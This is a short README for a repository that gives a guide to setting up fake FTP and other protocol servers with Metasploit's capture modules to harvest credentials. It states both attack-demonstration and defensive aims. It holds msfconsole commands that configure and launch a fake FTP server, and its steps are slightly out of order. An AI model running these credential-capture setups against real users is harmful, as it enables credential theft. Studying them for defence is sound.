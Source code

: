 # Metasploit_Fake_services
# Capturing FTP Credentials with Metasploit

This repository contains a detailed guide on using the Metasploit framework to capture credentials by setting up fake servers for various protocols. The goal is to demonstrate how attackers can use Metasploit's auxiliary modules to gather credentials and how defenders can understand and mitigate such attacks.

## Table of Contents

- [Introduction](#introduction)
- [Requirements](#requirements)
- [Setup](#setup)
- [Configuration](#configuration)
- [Exploitation](#exploitation)
- [Verification](#verification)
- [Using Metasploit for Different Services](#using-metasploit-for-different-services)
  - [Telnet](#telnet)
  - [VNC](#vnc)
  - [SMB](#smb)
  - [HTTP Basic](#http-basic)
  - [SMTP](#smtp)
- [Security Considerations](#security-considerations)
- [Contributing](#contributing)
- [License](#license)

## Introduction

This guide explains how to use Metasploit's auxiliary modules to set up fake servers and capture credentials from unsuspecting victims. The process includes configuring the Metasploit modules, launching the fake servers, and using various tools to test the setup.

## Requirements

- Metasploit Framework installed
- Kali Linux or any Linux distribution with Metasploit
- Basic understanding of various network protocols and Metasploit

## Setup

1. **Install Metasploit Framework** (if not already installed):

    ```bash
    sudo apt update
    sudo apt install metasploit-framework
    ```
    ## Configuration

### FTP

1. **Select the FTP Capture Module**:

    ```bash
    use auxiliary/server/capture/ftp
    ```

2. **Set the Server Host**:

    ```bash
    set SRVHOST 192.168.23.128
    ```

3. **Set a Custom Banner**:

    ```bash
    set BANNER "Welcome"
    ```

4. **Launch the Fake FTP Server**:

    ```bash
    exploit
    ```

2. **Start Metasploit Console**:

    ```bash
    msfconsole
    ```

